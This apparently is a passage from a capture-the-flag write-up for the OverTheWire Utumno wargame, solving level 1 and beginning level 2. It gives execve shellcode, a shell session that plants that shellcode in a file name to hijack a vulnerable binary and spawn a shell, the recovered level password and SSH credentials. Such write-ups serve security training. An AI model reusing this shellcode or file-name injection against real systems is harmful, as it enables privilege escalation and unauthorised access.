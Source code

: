 Basically, I put a breakpoint at the `ret` instruction of the *run* function. You can see that the return address starts with `0x41414141`. It means that anything placed after **sh_** is executed as code. So, we need to create a filename with a shellcode embedded.

We just need to write a shellcode. Here, I choose to create a *symbolic link* on **/bin/sh** and call it using a custom shellcode. 

```nasm
global _start

section .text
_start:
xor eax, eax
push eax
push 0x65646f63 ; name of the symlink (code)
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 0xb ; sys_execve
int 0x80
```

We compile it, create a symlink and extract the shellcode. 

```bash
utumno1@utumno:/tmp/ax$ nasm -f elf32 shell.asm
utumno1@utumno:/tmp/ax$ ld -m elf_i386 -s -o shell shell.o
utumno1@utumno:/tmp/ax$ objdump -d ./shell.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x63\x6f\x64\x65\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
utumno1@utumno:/tmp/ax$ touch sh_$(python -c "print '\x31\xc0\x50\x68\x63\x6f\x64\x65\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")
utumno1@utumno:/tmp/ax$ ln -s /bin/sh /tmp/ax/code
utumno1@utumno:/tmp/ax$ /utumno/utumno1 `pwd`
$ whoami
utumno2
$ cat /etc/utumno_pass/utumno2
ceewaceiph
```

Almost easy !

## Utumno 02 Solution

**SSH :** *ssh utumno2@utumno.labs.overthewire.org -p 2227*<br/>
**Pass :** *ceewaceiph*

In this level, the only result we get from the executable is **"Aw.."**. So, we'll analyse it with **GDB**:

 
```nasm
utumno2@utumno:/utumno$ gdb -q ./utumno2
Reading symbols from ./utumno2...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804844b <+0>:	push   ebp
   0x0804844c <+1>:	mov    ebp,esp
   0x0804844e <+3>:	sub    esp,0xc
   0x08048451 <+6>:	cmp    DWORD PTR [ebp+0x8],0x0 ; check if the number of args is 0
   0x08048455 <+10>:	je     0x804846b <main+32> ; if *ebp+0x8 = 0, continue
   0x08048457 <+12>:	push   0x8048510
   0x0804845c <+17>:	call   0x8048310 <puts@plt>
   0x08048461 <+22>:	add    esp,0x4
   0x08048464 <+25>:	push   0x1
```